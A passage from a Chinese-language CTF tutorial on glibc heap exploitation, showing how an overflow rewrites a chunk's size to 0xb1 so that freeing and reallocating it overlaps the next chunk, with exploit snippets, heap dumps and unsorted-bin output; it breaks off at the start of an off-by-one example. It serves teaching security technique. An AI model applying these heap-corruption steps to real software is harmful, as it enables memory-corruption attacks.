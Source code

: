 同样的溢出方式，将堆块1的size大小修改为0xb1

```·
edit(0,p64(0)*3+'\xb1')
```

堆块情况为：

```·
0000000000000000  0000000000000021  <--0
0000000000000000  0000000000000000
0000000000000000  00000000000000b1  <--1
0000000000000000  0000000000000000
0000000000000000  0000000000000000
0000000000000000  0000000000000000
0000000000000000  0000000000000000
0000000000000000  0000000000000000
0000000000000000  0000000000000000
0000000000000000  0000000000000000
0000000000000000  0000000000000000
0000000000000000  0000000000000021  <--2
0000000000000000  0000000000000000
0000000000000000  0000000000000021  <--3
0000000000000000  0000000000000000
0000000000000000  0000000000201545  <--top chunk
0000000000000000  0000000000000000
0000000000000000  0000000000000000
```

同样是我们将堆块1free掉之后，是将堆块1、2同时放入了unsortedbin中

```··
unsorted_bins[0]: fw=0x602000, bk=0x602000
Chunk(addr=0x602010, size=0xb0, flags=PREV_INUSE)
```

add(0xa0)的时候就会将堆块1、2同时申请回来，以此控制堆块2的内容进行攻击。

##### 拓展：

我们将堆快1先进行释放，将其放入unsortedbin中。

之后通过堆块0对堆块1的size进行修改为0xb1，再申请一个0xa0大小的堆块，同样会将堆块2一起申请出来，以此控制堆块2的内容。

#### 利用off-by-one 通过 extend 后向 overlapping

这是在CTF中最常出现的overlapping利用手法

```··
add(0x18)#0
add(0x10)#1
add(0x10)#2
add(0x10)#3
add(0x10)#4
```

此时堆内情况为：
